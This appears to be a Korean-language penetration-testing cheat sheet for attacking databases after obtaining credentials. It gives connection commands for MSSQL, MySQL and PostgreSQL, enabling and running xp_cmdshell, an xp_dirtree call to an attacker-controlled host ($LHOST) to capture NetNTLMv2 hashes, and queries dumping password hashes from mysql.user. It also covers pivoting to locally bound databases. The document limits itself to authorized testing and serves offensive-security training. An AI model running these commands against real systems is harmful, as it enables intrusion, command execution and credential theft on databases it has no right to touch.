

> DB는 "접속 → 권한/데이터 열거 → (가능하면) 명령 실행·파일 접근" 순으로 봅니다. 애플리케이션 설정에서 나온 DB 계정이 다른 서비스에도 재사용되는지가 핵심입니다. 식별자는 전부 플레이스홀더입니다.

## 개념



- DB 계정의 **권한 수준**을 먼저 확인(일반 vs 관리자).
- 설정·테이블에서 **다른 서비스 자격증명**이 자주 나옵니다 → 재사용 검증.
- 명령 실행·파일 접근은 DBMS별 기능이라 조건을 확인한 뒤 신중히.

## 공격·우회 구문

허가된 범위에서만.

### MSSQL — impacket

```bash
# 윈도우 인증으로 접속
impacket-mssqlclient corp.local/$USER:'Password123'@$TARGET -windows-auth
```

접속 후, 명령 실행 기능은 기본 비활성이라 **관리자 권한일 때만** 켤 수 있습니다(허용 범위에서).

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

> 판단 포인트: `xp_dirtree '\\$LHOST\share'` 로 DB 서비스 계정이 내 쪽에 SMB 인증을 하도록 유도하면 NetNTLMv2 해시를 받을 수 있습니다(캡처는 내 쪽 리스너). 명령 실행이 막혀도 이 경로가 열릴 때가 있습니다.

### MySQL

```bash
mysql -u $USER -p'Password123' -h $TARGET -P 3306
```

```sql
SELECT current_user(); SELECT version();
SELECT user, authentication_string FROM mysql.user;  -- 권한 있을 때
SHOW DATABASES;
```

### PostgreSQL

```bash
psql "host=$TARGET port=5432 user=$USER password=Password123 dbname=postgres"
```

```sql
SELECT current_user; SELECT version();
\l            -- 데이터베이스 목록
\du           -- 롤·권한
```

> 판단 포인트: 내부 전용(localhost 바인딩) DB는 외부 스캔에 안 잡힙니다. 호스트에 올라선 뒤 `netstat`로 로컬 리스닝 포트를 보고, 피벗/포트포워딩으로 접근합니다.

## 함께 보기

- [웹 열거·공략 도구 치트시트](/notes/web-enum-exploit-cheatsheet/) (SQLi)
- [피벗·터널링 도구 치트시트](/notes/pivoting-tunneling-cheatsheet/)
- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)

## 참고 자료

- [MITRE ATT&CK: Data from Information Repositories (T1213)](https://attack.mitre.org/techniques/T1213/)
- [Microsoft: xp_cmdshell Server Configuration](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option)
- [OWASP: Database Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html)
